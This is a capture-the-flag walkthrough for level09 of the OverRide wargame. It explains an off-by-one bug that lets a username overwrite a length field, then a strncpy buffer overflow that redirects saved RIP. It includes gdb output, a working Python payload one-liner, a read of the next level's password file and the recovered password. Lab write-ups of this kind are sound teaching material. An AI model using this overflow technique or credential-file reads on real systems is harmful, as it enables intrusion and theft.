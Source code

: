 # Walkthrough level09

We try to run the program:  

```bash
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: name
>: Welcome, name
>: Msg @Unix-Dude
>>: message
>: Msg sent!
```

With the code we can see that we do a strncpy with a value contained in a variable.

```c
 strncpy(*buffer, msg, (int) *(*buffer + 180));
```

We must write a value at `*buffer + 180`. To do this, we can see that we can write 40 char. The difficulty is to identify that we can write 41 char instead of 40, because of `i must be <= 40`.
`buffer[40]` is the 41th char.  

```c
while (i <= 40 && username[i]) {
  (*buffer)[140 + i] = username[i];
  i++;
 }
```

Now we try to override the value at `buffer[180]`:

```bash
r < <(python -c 'print("a" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 17, 0x000055555555491f in handle_msg ()
(gdb) x/xw $rbp-0xc
0x7fffffffe5c4: 0x00000061

```

We can see the value is `0x61` and we have write 97 char. (`0x61` = 97):  

```bash
(gdb) x/64xg $rbp-0xc0
0x7fffffffe510: 0x6262626262626262 0x6262626262626262
0x7fffffffe520: 0x6262626262626262 0x6262626262626262
0x7fffffffe530: 0x6262626262626262 0x6262626262626262
0x7fffffffe540: 0x6262626262626262 0x6262626262626262
0x7fffffffe550: 0x6262626262626262 0x6262626262626262
0x7fffffffe560: 0x6262626262626262 0x6262626262626262
0x7fffffffe570: 0x0000000000000062 0x0000555555554c10
```

So we want to override this variable to write on saved RIP. We search the offset.  

```bash
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e0:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5f0
 Arglist at 0x7fffffffe5d0, args: 
 Locals at 0x7fffffffe5d0, Previous frame's sp is 0x7fffffffe5e0
 Saved registers:
  rbp at 0x7fffffffe5d0, [rip at 0x7fffffffe5d8]

(gdb) p 0x7fffffffe5d8 - 0x7fffffffe510
$4 = 200
```

Lets exploit this:

```bash
level09@OverRide:~$ (python -c 'print("\xff" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])'; cat -) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
level09@OverRide:~$ su end
Password: 

end@OverRide:~$ cat end 
GG !
```
